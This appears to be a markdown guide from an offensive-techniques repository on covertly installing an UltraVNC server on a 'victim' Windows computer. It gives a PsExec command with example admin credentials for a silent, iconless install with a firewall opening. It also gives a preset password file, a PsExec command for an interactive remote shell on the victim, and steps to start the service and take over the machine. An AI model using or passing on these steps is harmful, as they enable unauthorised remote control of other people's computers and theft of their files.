


# VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

`psexec \\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"`

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

### Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

> [ultravnc] \
> passwd=56B6ACA18D1BA76008 \
> passwd2=56B6ACA18D1BA76008

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

### Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

`psexec \\victim -u admin -p admin0 -h -i cmd.exe`

And run below command over remote shell:

`net start uvnc_service`

### Step 5: Check the installation

Check UltraVNC listen port with netstat 

`netstat -ano | find "5900"`\
`tasklist /fi "pid eq <pid>"`

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

